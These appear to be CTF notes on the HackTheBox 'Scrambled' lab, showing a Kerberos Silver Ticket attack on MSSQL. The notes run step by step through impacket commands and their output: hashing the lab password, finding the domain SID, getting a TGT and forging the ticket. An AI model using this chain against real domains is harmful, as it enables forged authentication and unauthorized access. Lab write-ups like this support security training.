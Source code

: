 ##### Alternative windows way
* https://0xdf.gitlab.io/2022/10/01/htb-scrambled-win.html#kerberoast

### MSSQL Access
* https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver

A Silver Ticket is a forged TGS (Ticket Granting Service) ticket, which is used directly between the client and the service, without necessarily going to the DC. Instead, the TGS ticket is signed by the service account itself, and thus the Silver Ticket is limited to authenticating only the service itself.

```bash
# Find the domain SID
### * https://www.browserling.com/tools/ntlm-hash
### * https://blog.atucom.net/2012/10/generate-ntlm-hashes-via-command-line.html
iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
impacket-lookupsid -hashes ':b999a16500b87d17ec7f2e2a68778f05' 'scrm.local/sqlsvc@dc1.scrm.local' 0 <- wont work since diabled. Not accepting the Kerberos either. But Alvin made it working.

python examples/lookupsid.py 'scrm.local/sqlsvc@dc1.scrm.local' 0 -no-pass -k
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at dc1.scrm.local
[*] StringBinding ncacn_np:dc1.scrm.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2743207045-1827831105-2542523200

* https://morgansimonsen.com/2012/05/21/whats-special-about-the-builtin-administrator-account-12/

impacket-getTGT scrm.local/sqlsvc:Pegasus60 -dc-ip dc1.scrm.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in sqlsvc.ccache
export KRB5CCNAME=sqlsvc.ccache

ldapsearch -H ldap://dc1.scrm.local -D 'scrm.local\sqlsvc' -Y GSSAPI -b "cn=users,dc=scrm,dc=local" | grep -i "objectSid::" | cut -d ":" -f3
SASL/GSSAPI authentication started
SASL username: sqlsvc@SCRM.LOCAL
SASL SSF: 256
SASL data security layer installed.
 AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9gEAAA==

Otherwise convert it * https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253

# with an NT hash
export NThash='b999a16500b87d17ec7f2e2a68778f05'
export DomainSID='S-1-5-21-2743207045-1827831105-2542523200'
export DOMAIN='scrm.local'
export SPN='MSSQLSvc/dc1.scrm.local'
export Username='sqlsvc'
/usr/share/doc/python3-impacket/examples/ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/sqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
```